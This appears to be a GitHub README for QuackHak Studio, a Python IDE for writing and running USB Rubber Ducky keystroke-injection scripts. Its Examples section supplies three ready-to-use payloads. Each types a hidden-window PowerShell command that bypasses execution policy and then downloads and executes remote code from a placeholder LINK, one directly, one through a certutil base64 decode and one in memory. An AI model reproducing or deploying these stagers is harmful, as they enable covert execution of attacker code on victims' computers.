 # QuackHak Studio

QuackHak Studio is an Integrated Development Environment (IDE) for Rubber Ducky scripts. It provides a user-friendly interface for creating and editing Rubber Ducky scripts, making it easier to write and test your payloads. With QuackHak Studio, you can write, save, and execute your Rubber Ducky scripts with ease.

## Features

- **Syntax Highlighting**: QuackHak Studio provides syntax highlighting for Rubber Ducky scripts, making it easier to identify different commands and keywords.

- **Code Execution**: You can execute your Rubber Ducky scripts directly from the IDE, allowing you to test your payloads quickly.

- **Undo/Redo**: QuackHak Studio supports undo and redo actions, making it easy to revert changes or redo previous actions.

- **Code Templates**: QuackHak Studio offers pre-defined code templates for common Rubber Ducky payloads, making it convenient to get started with scripting.

## Getting Started

1. Download and install Python if you haven't already. You can download it from the [Python website](https://www.python.org/downloads/).

2. Clone this repository or download the `quackhak.py` script.

3. Install the required dependencies using the following command:

   ```bash
   pip install PyQt5
   ```

4. Run the QuackHak Studio script using the following command:

   ```bash
   python quackhak.py
   ```

5. Start writing your Rubber Ducky scripts in the QuackHak Studio IDE.

## Usage

- **File Menu**: The File menu allows you to open, save, and save your scripts with different options.

- **Edit Menu**: The Edit menu provides options for undoing and redoing actions.

- **Tools Menu**: Access useful tools like URL shortener and GitHub directly from the IDE.

- **Run Menu**: Run your Rubber Ducky scripts directly from the IDE or execute PowerShell scripts.

## Examples

### Basic Rubber Ducky Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass irm LINK|iex;FUNCTION
DELAY 500
ENTER
```

### Base64 Encoded Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
DELAY 500
ENTER
```

### Memory Execution Payload

```plaintext
DELAY 2000
GUI r
DELAY 500
STRING powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
DELAY 500
ENTER
```


## Author

QuackHak Studio is developed by [CaliNux](https://github.com/calinux-py).

## Acknowledgments

- Special thanks to I_am_Jakoby & Redd <3

Feel free to contribute to this project and help improve QuackHak Studio for Rubber Ducky enthusiasts. 
